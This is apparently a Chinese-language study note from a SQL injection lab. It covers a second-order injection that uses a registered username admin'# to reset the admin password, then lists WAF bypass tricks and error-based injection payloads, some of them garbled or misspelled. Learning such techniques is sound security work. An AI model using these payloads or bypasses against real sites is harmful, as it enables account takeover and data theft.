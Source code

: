 二次注入：



首先使用admin：admin尝试登陆，登陆成功。

退出登陆，创建一个新账户：admin‘#：123

<img src="sql.assets/image-20200712152526862.png" alt="image-20200712152526862" style="zoom:67%;" />

之后对现在的账户进行修改密码：234

<img src="sql.assets/image-20200712152852960.png" alt="image-20200712152852960" style="zoom:67%;" />

之后神奇的事情来了，我们在次使用admin：234登陆发现登陆成功了。而admin：admin却显示登陆失败。说明我们通过操作将admin的密码修改了。

现在解释为什么能够修改：

```
一般而言修改密码的SQL语句为：
update users set password='$pass' where username='$username' and password='$curr_pass'
但是我们注册的admin'#让它成为
update users set password='$pass' where username='admin'#' and password='$curr_pass'
其等效于：
update users set password='$pass' where username='admin'
所以实现了修改密码的操作。
```



### 25-25a



#### 绕过

```
WAF绕过：
1.白盒绕过
	获得了源代码
2.黑盒绕过
	1.架构层面绕过waf
	主要针对云waf，找到源网站的真实地址，进行绕过，有点像CDN
	2.通过同网段绕过waf保护
	在一个网段中，可能经过的数据不会经过云waf，从而实现绕过
	3.协议层面绕过waf
		a.协议未覆盖绕过waf
		比如由于业务需要只对get型进行检测，post数据选择忽略。
		b.参数污染
		index?id=1&id=2 waf只能对id=1进行检测。
	4.规则层面的绕过
		a.sql注释符绕过
		--union /**/select
		--union /*！ */内联注释mysql特有
		b.空白符绕过
		--mysql空白符：%09;%0A;%0B;%0D;%20;%0C;%A0;/*XX*/
		--正则空白符：%09;%0A;%0B;%0D;%20;
		c.函数分隔符号
		--对函数进行分割绕过：concat%2520(   ;concat/**/(     等
		d.浮点数词法解释
		--waf对id=1可以进行检测，但是对于id=1E0、id=1.0、id=\N可能无法检测
		e.利用error-based进行sql注入
		extractvalue(1, concat(0x5c,md5(3));
		updatexml(1, concat(0x5d,md5(3),1);
		Geometryollectiol(select*from(select*from(select@ @version)f)x))
		polygon((select* from(select name. const(versin(,1)x))
		linestring()
		multipoint()
		multilinestring()
```